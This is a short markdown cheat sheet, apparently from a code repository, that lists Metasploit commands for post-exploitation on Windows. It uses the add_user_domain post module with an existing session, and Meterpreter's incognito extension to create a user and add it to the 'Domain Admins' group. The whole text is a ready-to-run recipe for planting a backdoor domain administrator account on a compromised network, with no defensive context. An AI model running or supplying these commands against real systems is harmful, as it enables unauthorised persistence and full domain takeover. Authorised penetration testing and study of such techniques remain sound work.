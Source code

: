 # Metasploit

## 01 - Post Module

```
msf > use post/windows/manage/add_user_domain

set username <username>

set password <password>

set session <session_ID>

run
```

## 02 - Meterpreter Extension

```
meterpreter > load incognito

meterpreter > add_user <username> <password>

meterpreter > add_group_user "Domain Admins" <username>
```
